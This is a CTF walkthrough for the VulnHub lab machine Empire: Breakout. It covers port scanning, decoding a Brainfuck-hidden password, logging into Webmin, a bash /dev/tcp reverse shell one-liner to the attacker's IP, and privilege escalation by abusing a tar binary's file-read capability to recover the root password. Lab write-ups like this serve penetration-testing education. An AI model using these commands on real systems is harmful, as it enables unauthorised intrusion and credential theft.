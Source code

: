 ```yaml
---
title: Empire:Breakout - Writeup
author: Elman Alizadeh
date: 2022-05-28 13:00:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, empire, breakout]
---
```


Today we will take a look at Vulnhub: Breakout. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes. [Link](https://www.vulnhub.com/entry/empire-breakout,751/)

![Desktop View]({{ "/assets/img/vuln-empire-breakout/1.jpeg" | relative_url }})

## Network scan

```console
nmap -p- -sV -sC --open 192.168.0.109

PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-server-header: MiniServ/1.981
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows
```

## Enum4linux

Command: enum4linux -a 192.168.0.109

We found a username here

![Desktop View]({{ "/assets/img/vuln-empire-breakout/2.png" | relative_url }})

## Web

If we look at the bottom of the page’s source code, we see a text encrypted by the brainfuck algorithm.

view-source:http://192.168.0.109/

```console
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.

-->
```

[Splitbrain](https://www.splitbrain.org/_static/ook/)

If we decode, we get the password.

```console
.2uqPEfj3D<P'a-3
```

## Reverse Shell

When we look at port 20000, it redirects us to the admin panel with a link

https://192.168.0.109:20000/

```console
Username: cyber

Password: .2uqPEfj3D<P'a-3
```

Once logged in, there is a terminal icon on the bottom left. With its we can carry out orders. I’ll get a reverse shell.

```console
bash -i >& /dev/tcp/YourIP/1234 0>&1
```

![Desktop View]({{ "/assets/img/vuln-empire-breakout/3.png" | relative_url }})

## Root

Command: getcap -r / 2>/dev/null

```console
/home/cyber/tar cap_dac_read_search=ep
```

[NXNJZ](https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/)

```console
cyber@breakout:~$ ./tar -cvf old_pass /var/backups/.old_pass.bak

cyber@breakout:~$ ./tar -xvf old_pass

cyber@breakout:~$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h

cyber@breakout:~$ su root
```
![Desktop View]({{ "/assets/img/vuln-empire-breakout/4.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/vuln-empire-breakout/5.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”




